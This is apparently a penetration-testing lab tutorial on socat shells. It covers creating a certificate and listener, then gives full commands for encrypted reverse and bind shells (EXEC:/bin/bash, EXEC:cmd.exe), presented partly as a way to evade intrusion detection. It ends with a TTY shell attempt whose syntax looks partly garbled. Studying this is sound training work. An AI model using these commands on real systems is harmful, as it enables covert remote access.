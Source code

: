 If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

cat shell.key shell.crt > shell.pem

Now, when we set up our reverse shell listener, we use:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

The same technique would apply for a bind shell:

Target:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

Attacker:

socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:


This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

```bash
socat OPENSSL/TCP-LISTEN:53,cert=encrypt.pem,verify=0 #,FILE:`tty`,raw,echo=0

socat TCP/OPENSSL:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

